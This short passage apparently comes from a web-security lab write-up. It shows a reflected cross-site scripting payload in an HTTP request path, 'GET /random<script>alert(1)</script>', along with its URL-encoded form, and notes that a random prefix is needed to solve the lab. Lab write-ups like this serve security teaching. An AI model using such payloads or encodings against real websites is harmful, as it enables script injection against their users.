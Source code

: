 
To solve the lab it is necessary to add something random before the payload:

```
GET /random<script>alert(1)</script>
```

```
GET /random%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
```
